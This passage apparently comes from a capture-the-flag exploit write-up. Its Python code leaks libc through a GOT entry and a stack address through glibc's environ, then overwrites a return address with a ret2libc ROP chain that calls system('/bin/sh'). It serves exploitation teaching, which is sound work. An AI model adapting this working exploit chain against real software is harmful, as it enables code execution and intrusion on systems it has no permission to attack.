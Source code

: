 We place a pointer to a GOT entry in the list and then print it for libc leak:

```python
################ Leak libc by printing content of GOT entry ################
# We write a pointer to a GOT entry over the pointer list, when we print it, it will give us its content (libc address)
create(0x30, pack(elf.got['puts']))

secrets[2] = b'0'

libc_leak = unpack(show(2).ljust(8, b'\x00'))

assert libc_leak > 0x100000000000, 'corrupted leak'

libc.address = libc_leak - libc.sym['puts']

print(f'Libc base: {hex(libc.address)}')
```

## Stack leak

Now we will place environ from glibc in the list. Environ contains a stack address at which the environment variables are stored:

```python
################ Stack leak ################
# Now that we have libc base, we can place environ on the pointer list which contains a stack address
secrets[4] = get_secret(4)

edit(4, pack(libc.sym['environ']))

stack_leak = unpack(show(2).ljust(8, b'\x00'))

assert stack_leak > 0x100000000000, 'corrupted leak'

print(f'Stack leak: {hex(stack_leak)}')
```

## ROP

Now with a stack and libc leak, it's very easy to just do ret2libc for shell. Simply place the return address in the pointer list and write the ROP payload there:

```python
################ ROP ################
# With stack leak, we can now write a pointer to the return address over the pointer list
# Then we can write our ROP payload to that pointer
return_address = stack_leak - 0x170 + 0x20

edit(4, pack(return_address))

pop_rdi = libc.address + 0x10f75b
str_bin_sh = next(libc.search(b'/bin/sh\x00'))
system = libc.sym['system']
ret = elf.address + 0x0000000000001016

payload = pack(pop_rdi)
payload += pack(str_bin_sh)
payload += pack(ret)
payload += pack(system)

edit(2, payload)

io.readline()
```